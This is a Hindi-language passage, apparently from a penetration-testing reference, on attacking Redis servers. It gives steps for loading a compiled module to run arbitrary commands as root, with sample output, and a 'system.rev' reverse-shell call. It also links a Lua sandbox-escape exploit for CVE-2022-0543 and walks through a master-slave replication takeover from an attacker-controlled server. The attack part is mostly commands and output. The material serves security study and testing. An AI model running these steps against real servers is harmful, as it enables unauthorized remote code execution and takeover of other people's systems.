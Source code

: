 यह विधि बिटकॉइन कमाने के लिए भी उपयोग की जा सकती है ：[yam](https://www.v2ex.com/t/286981#reply14)

### Redis मॉड्यूल लोड करें

1. [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) से निर्देशों का पालन करते हुए आप **मनमाने कमांड निष्पादित करने के लिए एक redis मॉड्यूल संकलित कर सकते हैं**।
2. फिर आपको **संकलित** मॉड्यूल **अपलोड** करने का कोई तरीका चाहिए।
3. `MODULE LOAD /path/to/mymodule.so` के साथ रनटाइम पर **अपलोड किया गया मॉड्यूल लोड करें**।
4. यह जांचने के लिए कि यह सही ढंग से लोड हुआ है, **लोड किए गए मॉड्यूल की सूची बनाएं**: `MODULE LIST`
5. **कमांड निष्पादित करें**:

```
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```

6. जब चाहें मॉड्यूल को अनलोड करें: `MODULE UNLOAD mymodule`

### LUA सैंडबॉक्स बायपास

[**यहां**](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) आप देख सकते हैं कि Redis कमांड **EVAL** का उपयोग **Lua कोड सैंडबॉक्स** करने के लिए करता है। लिंक किए गए पोस्ट में आप देख सकते हैं **कैसे इसका दुरुपयोग करें** **dofile** फ़ंक्शन का उपयोग करके, लेकिन [स्पष्ट रूप से](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) यह अब संभव नहीं है। किसी भी तरह, यदि आप **Lua** सैंडबॉक्स को **बायपास** कर सकते हैं तो आप सिस्टम पर **मनमाने** कमांड निष्पादित कर सकते हैं। इसके अलावा, उसी पोस्ट से आप कुछ **DoS का कारण बनने के विकल्प** देख सकते हैं।

**LUA से बचने के लिए कुछ CVEs**:

- [https://github.com/aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)

### मास्टर-गुलाम मॉड्यूल

​मास्टर redis सभी ऑपरेशनों को स्वचालित रूप से गुलाम redis पर समन्वयित करता है, जिसका अर्थ है कि हम कमजोर redis को एक गुलाम redis के रूप में मान सकते हैं, जो मास्टर redis से जुड़ा है जिसे हम नियंत्रित करते हैं, फिर हम अपने redis पर कमांड दर्ज कर सकते हैं।
```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```
## SSRF Redis से बात करना
